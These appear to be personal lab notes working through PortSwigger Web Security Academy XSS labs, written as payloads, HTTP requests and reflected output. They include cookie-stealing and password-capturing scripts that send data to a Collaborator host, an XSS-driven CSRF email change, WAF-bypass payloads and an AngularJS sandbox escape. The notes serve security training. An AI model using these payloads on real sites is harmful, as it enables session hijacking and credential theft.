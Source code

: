 # **xss burp labs**
https://portswigger.net/web-security/cross-site-scripting

# **Reflected XSS**
https://portswigger.net/web-security/cross-site-scripting/reflected

<span style="color:yellow;font-weight:700;font-size:30px">
Exploiting cross-site scripting vulnerabilities - 3 labs
</span>

https://portswigger.net/web-security/cross-site-scripting/exploiting


# ***1. Lab: Exploiting cross-site scripting to steal cookies***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

1. find stored XSS:
    POST /post/comment HTTP/1.1
    Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH

    csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=2&comment=<script>alert(1)</script>&name=<script>alert(2)</script>&email=1@drive.com&website=

**response:** 
> POP alert 1
comment is vulnerable

**burp colaborator**
> hqb7iapxk2hjk1bcmv371ssm7dd81x.oastify.com

craft XSS:
<!-- >POST /post/comment HTTP/1.1
>Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH
>
>csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=3&comment=<script>fetch('http://c2f2u51swxtewwn7yqf2dn4hj8p5du.oastify.com/'+document.cookie)</script>&name=attacker&email=1@drive.com&website=

works on me but i dont get a anything from vic. lets try different mehtod to initiate the callback: -->

>POST /post/comment HTTP/1.1
>Cookie: session=VaFtkIpmQsVgJNSJXR6SzOWjyJjPcOqH
>
>csrf=tNfZzLkcKOAkjY2i4hkV3JajKwRfmVo8&postId=4&comment=<script>document.location='http://c2f2u51swxtewwn7yqf2dn4hj8p5du.oastify.com/'+document.cookie;</script>&name=attacker&email=1@drive.com&website=

**resonse in burp colaborator:**
> GET /secret=vDuHiLHzGprgjsyF4NcJGT6adF2zrqfX;%20session=E2kwm5V1vFUkQq2vW89G2WimZ6N4UiGa HTTP/1.1

send a **GET / HTTP/1.1** to repeater and change the cookie value (session) with the extracted values (secret. session):

> GET / HTTP/1.1
> Cookie: secret=vDuHiLHzGprgjsyF4NcJGT6adF2zrqfX; session=E2kwm5V1vFUkQq2vW89G2WimZ6N4UiGa

# Lab solved


# ***2. Lab: Exploiting cross-site scripting to capture passwords***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords
 
 This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account. 

check where for XSS:
>POST /post/comment HTTP/1.1

>csrf=2hUq6dqUHYhlhDjySjZDKNgC7pxsM6bL&postId=6&comment=<script>alert('comment')</script>&name=<name>&email=clean@token.com&website=

craft a payload:
1. use website form to post a comment:
'''htm
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://2wzsovviqnn4qmhxsg9s7dy7dyj17q.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
'''

response:
> POST / HTTP/1.1
>
> administrator:oa183my69g2j1n51m7xs

# Lab Solved


# ***3. Lab: Exploiting XSS to perform CSRF***
https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf

 This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter 

1. login to wiener account and do a email change process:
> POST /my-account/change-email HTTP/1.1
>
> email=wiener@normal-user.net&csrf=NuLVz3gIonlrTUSodUwybd6nDdponj5a


2. use website form to post a comment:
'''htm
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=attacker@gnail.com')
};
</script>

# Lab solved


<span style="color:yellow;font-weight:700;font-size:30px">
Cross-site scripting contexts - 15 labs
</span>
https://portswigger.net/web-security/cross-site-scripting/contexts


# ***1. Lab: Reflected XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

search field:
<script>alert(1)</script>

# ***2. Lab: Stored XSS into HTML context with nothing encoded***
https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

test 1 - <script>alert(document.cookie)</script>


# ***3. Lab: Reflected XSS into HTML context with most tags and attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked
1. try baseline xss:
    GET /?search=<script>alert(1)</script> HTTP/1.1
    response:
    "Tag is not allowed"

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
    GET /?search=§§ HTTP/1.1

    200 responses:
    GET /?search=<body> HTTP/1.1          //not blocked!


3. check event for blockage (using portswigger cheatsheet event list via intruder:):
    GET /?search=§§ HTTP/1.1

    200 responses:
        GET /?search=<body%20onresize=1> HTTP/1.1          //not blocked!


4. lets craft an html page with an iframe containig the search payload. the iframe also contains a command (executed on load) to resize its width - causing the payload to be fired:
    <iframe src="https://0ac8001d04a89eb9c0751d16007f0036.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>

# POP!


# ***4. Lab: Reflected XSS into HTML context with all tags blocked except custom ones***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked
1. try baseline xss:
<script>alert(1)</script>
tags blocked!

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
all known tags are bloced

3. check custom tags sing portswigger cheatsheet tag list via intruder:
all custom tags are not blocked

lets look for a payload from custom tags:
<xss id=x tabindex=1 onfocus=alert(1)></xss>

we will put it in a link to the search term and add hash call ("#") for the tag "x":

<script>
location = 'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(1)></xss>#x';
</script>

explanation:
location =                                                                      // JS command elling browser to go to a 
'https://0a310080041f2ce7c0c165c1004c0044.web-security-academy.net/?search=     // exploitable URL and inject
<xss id=x tabindex=1 onfocus=alert(1)></xss>                                    // payload utilizing custom tag (to bypass waf)
#x                                                                              // and fire it up with hash (correspondes with id=x and uses tabindex to autofocus the element)

see: 
https://portswigger.net/research/one-xss-cheatsheet-to-rule-them-all



# ***5. Lab: Reflected XSS with event handlers and href attributes blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked

label your vector with the word "Click":
<a href="">Click me</a>

1. try baseline xss:
<script>alert(1)</script>
"Tag is not allowed" 400

2. check if tag not blocked using portswigger cheatsheet tag list via intruder:
GET /?search=§§ HTTP/1.1

200 responses:
GET /?search=<a> HTTP/1.1
GET /?search=<animate> HTTP/1.1
GET /?search=<image> HTTP/1.1
GET /?search=<svg> HTTP/1.1
GET /?search=<title> HTTP/1.1

3. try adoptaion of last payload with <a> tag
<a id=x tabindex=1\000onfocus=alert(1)>Click me</a>
"Event is not allowed" 400

4. check event types for blockage (using portswigger cheatsheet event list via intruder:):
all event in the cheetlist are blocked by waf

5. look for eventless payload - using find on the cheetsheet for animate we get:
<svg x=">" onload=alert(1)> 

breakdown:
//    1. the ">" makes WAF thinks its the end of the tag so he doesnt block the onload event handler. 
//    2. why it works also without the "click" string - IDK

POP!

original Polyglot XSS payload:
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
by @s0md3v from:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#polyglot-xss


portswiggers payload (requiers user interaction):
```
<svg><a><animate attributeName=href values=javascript:alert(2) /><text x=20 y=20>Click me</text></a>
```

**1. breakdown:**
```
    <svg>   // whitelisted tag 
        <a>     // whitelisted tag (?why need 2 tags?)
            <animate attributeName=href values=javascript:alert(1) />
            <text x=20 y=20>Click me</text>
    </a> -->
```

# ***6. Lab: Reflected XSS with some SVG markup allowed***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed

<svg x=">" onload=alert(1)> 

# ***7. Lab: Reflected XSS into attribute with angle brackets HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded
<script>alert(1)</script>
reflects twice on page:
1. inside a header:
    <h1>0 search results for ''&gt;&lt;script&gt;alert(1)&lt;/script&gt;'o'</h1>
2. in the search bar:
    <input type="text" placeholder="Search the blog..." name="search" value="<script>alert(1)</script>">

the <h1> tag escape tries fails so going to <input> tag and changing to event handler payload:
    " autofocus onfocus=alert(document.domain) x="
reflected as:
    <input type="text" placeholder="Search the blog..." name="search" value="" autofocus="" onfocus="alert(document.domain)" x="">
POP!



# ***8. Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded


To solve this lab, submit a comment that calls the alert function when the comment author name is clicked. 

1 try:
POST /post/comment HTTP/1.1

csrf=zldcOMiQQXjD7RtgPjTfwZEypoHRh2KP&postId=4&comment=walla%3F&name=hacker&email=clean%40token.com&website=test.com

response:
<p><img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="website=test.com">hacker</a> | 03 July 2022</p>

change href attribute value from "website=test.com" to "javascript:alert()" and resend via repeater

now we get clickble link that preform XSS POC

POP!

# ***9. Lab: Reflected XSS in canonical link tag***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag

for canonical manipultion lets try adding arbitary paramaeter to the URL:
    ?test
full path: 
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test

reflect:
    <head>
    ..
        <link rel="canonical" href='https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?test'/>
    ..
    </head>

lets change "?test" with payload:
    ?'accesskey='x'onclick='alert(1)


payload breakdown:
    ?                   // param
    '                   //breaks out of href field - wired since in js it uses ". maybe php back server uses ' ?
    accesskey='x'       // define shortcut key "x"  
    onclick='alert(1)   // when accessed via "x" key preform this action 

    // **access key to be accessed by ALT+SHIF+"x" in firefox.(in chrome/IE/safari/Opera15+ its just ALT+"X")


full path:
    https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)


reflection:
    <head>
    ..
        <link rel="canonical" href="https://0acb007104d7d0f9c07124ee00810023.web-security-academy.net/?" accesskey="x" onclick="alert(1)">
    
    <!-- no need for user interaction if we just use autofocus onfocus?
    ?'autofocus+onfocus%3dalert()
    full path
    https://0a4100be0430aa3bc0926f20007d0094.web-security-academy.net/?'autofocus+onfocus%3dalert()

    ?tabindex=1+id=x+onfocus%3dalert(3) -->


# ***10. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped

hint:
</script><img src=1 onerror=alert(document.domain)>

test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload to escape the code:
</script><img src=1 onerror=alert(document.domain)>

reflection:
    <script>
        var searchTerms = '\'</script><img src=1 onerror=alert(document.domain)>';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>



POP!

# ***11. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded

hints:
    '-alert(document.domain)-'
    ';alert(document.domain)//


test - search for test and look for reflections:
GET /?search=test HTTP/1.1

reflection:
    <script>
        var searchTerms = 'test';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

trying prevoius payload:
'</script><img src=1 onerror=alert(document.domain)>

reflection:
                   <script>
                        var searchTerms = ''&lt;/script&gt;&lt;img src=1 onerror=alert(document.domain)&gt;';
                        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
                    </script>

payloads (since we already inside script) - both works:
';alert(document.domain)//
'-alert(document.domain)-'

reflections:
    <script>
        var searchTerms = '';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    <script>
        var searchTerms = ''-alert(document.domain)-'';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

POP!

# ***12. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

test last payload:
    GET /?search=';alert(document.domain)//  HTTP/1.1

reflection
    <script>
        var searchTerms = '\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

' is escaped

use double escape ' to breakout:
    GET /?search=\';alert(document.domain)// HTTP/1.1

reflection:
    <script>
        var searchTerms = '\\';alert(document.domain)//';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>

payload:
    \';alert(document.domain)//


# ***13. Lab: Reflected XSS in a JavaScript URL with some characters blocked***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

hint:
    onerror=alert;throw 1

test:
POST /post/comment HTTP/1.1

csrf=L51ljiFGeK4JW8fE59ZWWdebbnezsNCc&postId=3&comment=test&name=test&email=clean%40token.com&website=https:test.

reflection
    <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar"><a id="author" href="http://test.">test</a> | 03 July 2022
    </p>

check1:
    https://'<script>alert()</script>

reflection:
    <a id="author" href="https://&apos;&lt;script&gt;alert()&lt;/script&gt;">test</a>

check2:
https://"+onerror=alert;throw+1337

<a id="author" href="https://&quot; onerror=alert;throw 1337">test</a>

https://0a1800cb03087020c0b574f400240037.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27


port solution:
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window%2b'',{x:'

???


# ***14. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped

try:
    http://alert')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\')');">

try:
    http://alert\')
reflection:
    <a id="author" href="http://alert\')" onclick="var tracker={track(){}};tracker.track('http://alert\\\');">
learned: \ and ' are escaped

try (aubstitues to '):
    '%27\x27&#39;&apos;
reflect:
    <a id="author" href="http://\'\'\\x27&#39;&apos;" onclick="var tracker={track(){}};tracker.track('http://\'\'\\x27&#39;&apos;');">
learned: hex escape (\x00) and octa escape(\00)) are useless here


try (HtmlEnc --> UrlEnc):
    http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert")
        http://%26apos%3b%26%2337%3b%26%2350%3b%26%2355%3b%26%2392%3b%26%23120%3b%26%2350%3b%26%2355%3b%26amp%3b%26%2335%3b%26%2351%3b%26%2357%3b%26%2359%3b%26amp%3b%26%2397%3b%26%23112%3b%26%23111%3b%26%23115%3b%26%2359;alert")
reflect:
 <a id="author" href="http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&apos;&#37;&#50;&#55;&#92;&#120;&#50;&#55;&amp;&#35;&#51;&#57;&#59;&amp;&#97;&#112;&#111;&#115;&#59;alert&quot;)');">

browser do URL decode but not HTML decode


" http://alert "
' http://alert '
are they different? '/" ?

try:
    http://alert")
reflect:
<a id="author" href="http://alert&quot;)" onclick="var tracker={track(){}};tracker.track('http://alert&quot;)');">

try:
    "%22\x22&#34;&quot;
reflect:
    <a id="author" href="http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)" onclick="var tracker={track(){}};tracker.track('http://&quot;&quot;\\x22&#34;&quot;tpalert&quot;)');">


try (aubstitues to '):
    http://'%27%26#39;%26apos;alert()
try (urlencoded X1)
'%2527%26%2339%3b%26apos%3balert

reflect:
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">

try (urlencode X2):
http%3a//'%2527%2526%2339%3b%2526apos%3balert()
    <a id="author" href="http://\'%27%26#39;%26apos;alert()" onclick="var tracker={track(){}};tracker.track('http://\'%27%26#39;%26apos;alert()');">


try:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/%26#39;'--%0d%0a;alert(document.domain)//
ref:
https://0a1c00a404fd51e9c1e76ff900ec007f.web-security-academy.net/'/'--!%3E;alert(document.domain)//


post solutions:
http://foo?&apos;-alert(1)-&apos;

<!-- ?? do you send it as is or do you url encode the & ? -->

# ***15. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped***
https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped

hint: ${alert(document.domain)}

try:
```
test`\
```
reflection in response:
    <script>
        var message = `0 search results for 'test\u0060\u005c'`;
        document.getElementById('searchMessage').innerText = message;
    </script>

payload:
> ${alert(document.domain)} 



**Client-side template injection**
https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection

# ***1. Lab: Reflected XSS with AngularJS sandbox escape without strings***
https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings


This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function. 


**Materials**:
1. fool IsIdent():
```
'a'.constructor.prototype.charAt=[].join
```
2. execution code:
```
$eval('x=alert(1)')
```
3. bypassing eval() blacklisted:
```
[123]|orderBy:'Some string'
```
* The colon signifies an argument to send to the filter, which in this case is a string. The orderBy filter is normally used to sort an object, but it also accepts an expression, which means we can use it to pass a payload. 


1. observe a the Angular.js load at: 
request:
**GET /resources/js/angular_1-4-4.js HTTP/1.1** 

find isident() function call (line 203-205)
```js
ec.prototype={
    constructor:ec,lex:function(a){
        this.text=a;
        this.index=0;
        for(this.tokens=[];
        this.index<this.text.length;
        )if(a=this.text.charAt(this.index),'"'===a||"'"===a)this.readString(a);
    else if(this.isNumber(a)||"."===a&&this.isNumber(this.peek()))this.readNumber();
    else if(this.isIdent(a))this.readIdent();
    else if(this.is(a,"(){}[].,;:?"))this.tokens.push({
        index:this.index,text:a
        }
    },
    isIdent:function(a){
        return"a"<=a&&"z">=a||"A"<=a&&"Z">=a||"_"===a||"$"===a
    },
    readIdent:function(){
    for(var a=this.index;this.index<this.text.length;){var c=this.text.charAt(this.index);if(!this.isIdent(c)&&!this.isNumber(c))break;this.index++

```
2. in search page we find the call to angularJS to handle search parameters:
request:
```
GET /?search=test HTTP/1.1
```
response:
```html
<script>angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = 'test';
    $scope.value = $parse(key)($scope.query);
});</script>
```
3. **final payload**:
```
1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
portswiggers solution:
```
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

**Explanation:**

The exploit uses toString() to create a string without using quotes. It then gets the String prototype and overwrites the charAt function for every string. This effectively breaks the AngularJS sandbox. Next, an array is passed to the orderBy filter. We then set the argument for the filter by again using toString() to create a string and the String constructor property. Finally, we use the fromCharCode method generate our payload by converting character codes into the string x=alert(1). Because the charAt function has been overwritten, AngularJS will allow this code where normally it would not.

<!-- didnt work:
'a'.constructor.prototype.charAt=[].join;[123]|orderBy:'x=alert(1)') -->

# cool






